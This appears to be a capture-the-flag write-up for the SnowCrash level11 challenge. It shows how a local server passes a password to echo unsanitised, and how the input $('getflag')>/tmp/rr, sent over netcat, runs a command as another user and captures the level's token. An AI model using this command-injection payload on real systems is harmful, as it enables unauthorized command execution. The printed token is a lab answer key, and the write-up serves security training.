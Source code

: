## Project README: Finding flag11

Our routine: 
```bash
ls -la
find / -user flag11 -print 2>/dev/null
```

We realize it's a **server** that his running on the back.
So the idea is to make this file run getflag cause in doing so we are not running getflag as user **level11** but as **flag11** since level11 file was created by **flag11**.

Program is calling **echo** with the **password** we give as a **parameter** so to use this breach we just have to exectute getflag like so:

```bash
nc 127.0.0.1 5151
Password: $('getflag')>/tmp/rr
Erf nope..
level11@SnowCrash:~$ cat /tmp/rr
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

And VOILA
